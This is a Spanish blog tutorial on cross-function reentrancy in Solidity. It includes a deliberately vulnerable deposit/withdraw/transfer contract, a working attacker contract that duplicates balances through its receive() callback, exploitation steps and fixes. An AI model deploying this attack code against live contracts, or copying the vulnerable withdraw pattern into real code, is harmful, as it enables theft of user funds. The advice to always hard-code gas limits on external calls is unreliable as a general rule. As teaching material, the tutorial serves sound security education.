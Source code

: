 ```yaml
---
title: 'Solidity: Ataque Reentrancy Cruzado'
description: 'La vulnerabilidad conocida como Reetrancy permite llamar a una misma función una y otra vez. Existe una variante que provoca el llamado a una segunda función. Se lo conoce con el nombre de Reetrancy Cruzado.'
image: '/tech/solidity.webp'
pubDate: '06/01/2023'
englishMetadata: {
  title: 'Solidity: Cross Reentrancy Attack',
  description: 'The vulnerability known as Reetrancy allows the same function to be called over and over again. There is a variant that causes a second function to be called. It is known by the name of Reetraccy Cruzado.'
}
prev: 'reentrancy-attack'
next: 'self-destruct-attack'
---
```


# Solidity: Ataque Reentrancy Cruzado

La vulnerabilidad de los contratos inteligentes conocida como **Reetrancy** no solo permite llamar a una misma función una y otra vez. Existe una variante similar, pero que **provoca el llamado a una segunda función**. Se lo conoce con el nombre de **Reetrancy Cruzado**.

## Reentrada cruzada de transacciones

Para que este tipo de vulnerabilidad se exponga, el contrato atacado tener una segunda función que permita manipular ETH de forma no contemplada por la regla de negocio principal del mismo.

Veamos de qué se trata esta vulnerabilidad y cómo prevenirla a través de un simple ejemplo:

### Explicación del contrato vulnerado

Utilizaremos de ejemplo un contrato inteligente que permite depositar, retirar y transferir ETH a un tercero. Cada dirección solo puede retirar sus propios fondos o transferirlos a otra cuenta, pero **la vulnerabilidad permitirá que un atacante duplique sus fondos en otra cuenta** para que esta también pueda hacer retiros de ETH que no le corresponden.

### Contratos involucrados

Comencemos con el contrato principal que contiene la lógica de negocios para el depósito, retiro y transferencia de Ether.

```js
// SPDX-License-Identifier: GPL-3.0
pragma solidity >=0.7.0 <0.9.0;

contract ReentrancyCross {
  mapping (address => uint) private balances;

  // Función para depositar ETH
  function deposit() public payable {
    balances[msg.sender] += msg.value;
  }

  // Función para retirar todo el ETH de una cuenta
  function withdraw() public {
    uint amount = balances[msg.sender];
    (bool result, ) = msg.sender.call{value: amount}("");
    require(result);
    balances[msg.sender] = 0;
  }

  // Función para enviar ETH de una cuenta a otra, la vulnerabilidad la utiliza para duplicar balances
  function transfer(address to, uint amount) public {
    if (balances[msg.sender] >= amount) {
      balances[to] += amount;
      balances[msg.sender] -= amount;
    }
  }

  // Función para ver el balance de una cuenta
  function getBalance(address addr) public view returns (uint) {
    return balances[addr];
  }

  // Función para ver el balance total del contrato
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

Por su parte, el contrato atacante:

```js
contract Ataque {
  // Dirección del owner de contrato donde se duplicará el balance
  address payable ownerAddr;

  ReentrancyCross public reentrancyCross;

  constructor(address _reentrancyCrossAddress) {
    // Instanciamos el contrato ReentrancyCross
    reentrancyCross = ReentrancyCross(_reentrancyCrossAddress);
    ownerAddr = payable(msg.sender);
  }

  // Función que recibe los ETH luego de un retiro
  receive() external payable {
    // Llamando a transfer(), duplicamos el balance en la cuenta del atacante
    reentrancyCross.transfer(ownerAddr, msg.value);
  }

  // Función que ocasiona el llamado a una segunda función luego del retiro
  function attack() external payable {
    require(msg.value >= 1 ether);
    reentrancyCross.deposit{value: 1 ether}();
    reentrancyCross.withdraw();
  }

  // Función para ver el balance total del contrato luego de explotar la vulnerabilidad
  function getTotalBalance() public view returns (uint) {
    return address(this).balance;
  }
}
```

### Procedimiento para vulnerar el contrato

1. Desplegar el contrato `ReentrancyCross`.
2. Depositar 1 ETH con dos cuentas. Hasta este punto, el contrato tendría 2 ETH.
3. Desplegar contrato `Attack` que recibe en el constructor la dirección de `ReentrancyCross`.
4. Hacer el llamado a `Attack.attack` enviando 1 ETH con una tercera cuenta para tener acceso a realizar una extracción. El contrato atacante recuperará inmediatamente ese ETH mientras que también provocará que el balance se duplique en otra dirección para que esta pueda retirar un ETH que no le pertenece.

### ¿Qué sucedió aquí?

`Attack` depositó un ETH e inmediatamente lo retiró con `ReentrancyCross.withdraw` que realiza una `call()` al propio contrato atacante. El contrato atacante recibe ese llamado en `receive()`, guarda el ETH, y ejecuta la función `transfer()` del contrato vulnerado. Dicha función, provoca que el balance del contrato atacante sea transferido a otra dirección. En este ejemplo, se utiliza la dirección que desplegó el contrato `Attack`.

De esta manera, el owner que desplegó el contrato `Attack`, tendrá en su balance personal de `ReentrancyCross` 1 ETH que no le pertenece y que puede retirar sin problemas.

Habiéndose duplicado el balance, el owner de `Attack` se queda con 1 ETH mientras que el propio contrato `Attack` posee el otro ETH fácilmente retirable por parte del owner.

La vulnerabilidad del tipo **Reetrancy Cruzado** es más discreta, ya que esta no vacia por completo los fondos de una contrato como **Reetrancy**, permite realizar pequeños retiros tal vez insospechados si el contrato tiene miles de ETH.

### ¿Por qué sucedió?

Al realizarse la transferencia antes de que el balance del contrato atacante se ponga en 0, permite hacer una transferencia de este balance a otra cuenta. Observa que el balance de la cuenta del contrato atacante se setea a 0 recién en la última línea de código de la función `withdraw()`.

```js
function withdraw() public {
  uint amount = balances[msg.sender];
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
  balances[msg.sender] = 0;
}
```
Exactamente, el mismo problema de **Reetrancy**, al no setear el balance a 0 en el momento correcto, permite realizar una transferencia del balance a otra cuenta.

### ¿Cómo se puede evitar?

Veremos dos medidas que puedes tomar para evitar este enorme problema de seguridad.

1. El primero es **mover el seteo del balance a 0 antes del llamado a la función externa**.
```js
function withdraw() public {
  uint amount = balances[msg.sender];
  balances[msg.sender] = 0;
  (bool result, ) = msg.sender.call{value: amount}("");
  require(result);
}
```
Corresponde setear a 0 el balance de la cuenta que retira sus fondos antes de realizar el llamado externo. En el caso de que el llamado falle por otro motivo, no te preocupes, ya que el `require()` hará un `revert()` y los balances volverán a como estaban antes del fallo.

2. También puedes **setear el uso del gas en la llamada externa**.
```js
(bool sent, ) = msg.sender.call{value: monto, gas: 10000}("");
```
Siempre es aconsejable configurar el gas disponible para un llamado externo

## Conclusiones

Hemos visto hasta aquí que el depósito, retiro o transferencia de valor entre cuentas o contratos **es un tema que no debe tomarse a la ligera**. Muchas variables que pueden escaparse y provocar desastres económicos, como muchos que ya han sucedido en la industria. Como desarrolladores Web3, **tenemos la responsabilidad de cuidar el ecosistema y que sea un lugar confiable para depositar nuestro dinero**.

---
Post creado en colaboración con el [Curso de Seguridad de Smart Contracts](https://platzi.com/cursos/seguridad-smart-contracts/) de **Platzi**.

